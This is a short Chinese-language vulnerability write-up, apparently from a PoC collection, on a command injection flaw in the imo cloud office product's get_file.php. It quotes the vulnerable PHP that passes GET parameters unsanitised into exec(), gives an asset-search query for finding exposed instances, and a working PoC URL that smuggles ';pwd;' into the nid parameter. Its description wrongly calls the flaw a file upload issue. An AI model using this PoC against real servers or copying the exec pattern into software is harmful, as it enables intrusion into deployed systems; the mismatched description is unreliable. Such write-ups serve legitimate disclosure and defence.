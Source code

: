 # imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162918737.png)

漏洞文件 get_file.php

```javascript
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```javascript
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645880486605-ff738b08-cb7a-4039-b079-a167e13bc567.png)